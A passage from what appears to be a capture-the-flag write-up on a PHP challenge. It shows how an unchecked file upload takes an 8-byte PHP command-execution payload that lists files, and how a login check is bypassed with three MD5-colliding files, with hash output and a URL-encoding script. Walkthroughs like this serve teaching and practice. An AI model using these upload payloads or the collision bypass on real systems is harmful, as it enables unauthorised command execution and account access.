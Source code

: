 ```php
        }
    }
}
?>
```
The system deletes any previous uploaded file before storing the file we're currently uploading. As we can see, no extension nor content check is performed during the upload phase, so we can upload any file type we want; however, we have an annoying restriction on the file size, which limit is 8 bytes, not really enough for an exploit, but enough to launch a command on the system:

```php
<?=`ls` // 7 characters
```
This will allow a black-box user to discover the content of the hidden file:
`/myuploader_priv/files/887beed152a3e8f946857bade267bb19d159ef59.txt`. This will take us to the next step of our analysis, the file `/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php`.

The interesting part of the `index.php` resides in its authentication logic:

```php
<?php
if (($username == $password ) or ($username == $code)  or ($password == $code)) {echo 'Your input can not be the same.';}
else if ((md5($username) === md5($password) ) and (md5($password) === md5($code)) ) {
            echo "Well done!";
            $_SESSION["secret"] = '133720';
            header('Location: admin.php');  
```
Now we know that, in order to successfully login, we need to find 3 md5 collisions. This process may take some times to complete, however, we can get a big help from the great work of [Marc Stevens](https://marc-stevens.nl/research/) about hash collision attacks. A project on Github of *thereal1024*, based on his work, can be very helpful for our needs. [md5-collision](https://github.com/thereal1024/python-md5-collision)

If you're not really interested to have this tool among your own toolset, I uploaded three files ready to use [here](./md5coll/f123.tar). Those three files are different, but their md5 hashes are the same. To prove that, it's enough to run:

```bash
$ md5sum f*
280329d5f2d5dca79041a4a9d50c2bff *f1
280329d5f2d5dca79041a4a9d50c2bff *f2
280329d5f2d5dca79041a4a9d50c2bff *f3
```

Now, in order to successfully send the entire content of the files without any modification, we will need to URL encode their content.

There are multiple tools that can URLencode a file, but I preferred to code this little python code:

```py
#!/usr/bin/python3
import sys
import urllib.parse

if len(sys.argv) < 1:
    print("[-] Missing file name")
else:
    try:    
        with  open(sys.argv[1],'rb') as f:
            contents = f.read()
            url = urllib.parse.quote(contents)
            print("[+] Urlencoded file:")
            print(url)
    except Exception as e:
        print("[-] Could not open file")
        print(e)
```